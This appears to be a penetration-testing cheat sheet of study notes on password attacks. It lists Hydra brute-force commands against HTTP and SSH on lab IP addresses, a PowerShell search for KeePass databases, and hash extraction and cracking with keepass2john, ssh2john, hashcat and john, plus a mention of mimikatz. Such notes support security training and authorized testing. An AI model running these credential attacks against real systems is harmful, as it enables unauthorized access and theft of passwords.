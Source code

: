 
###### Hydra
```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt -s 80 -f 192.168.232.201 http-get -I
```

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.232.201 http-get "/fm_usr=admin&fm_pwd=^PASS^:401 Unauthorized" -I
```

```
hydra -l george -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt -s 2222 ssh://192.168.232.201
```

#### Password Manager

- Search "Apps and features"
- Look for password managers like 1password or keepass (.kdbx file)
###### keepass

use powershell to search to .kdbx databases of saved passwords
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```
keepass2john Database.kdbx > keepass.hash
```
Since KeePass uses a master password without any kind of username, we need to remove the "Database:" string with a text editor.

Get keepass hashcat type:
```
hashcat --help | grep -i "KeePass"
```

```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

#### SSH Private Key Passphrase

```
ssh2john id_rsa > ssh.hash
```
*remember to remove filename before first colon*

```

cat ssh.rule
cat ssh.passwords
hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force
cat ssh.rule
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
ssh -i id_rsa -p 2222 dave@192.168.50.201
```

#### Cracking NTLM

mimikatz


*this wordlist contains the best 64 rules, apparently*
```
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r usr/share/hashcat/rules/best64.rule --force
```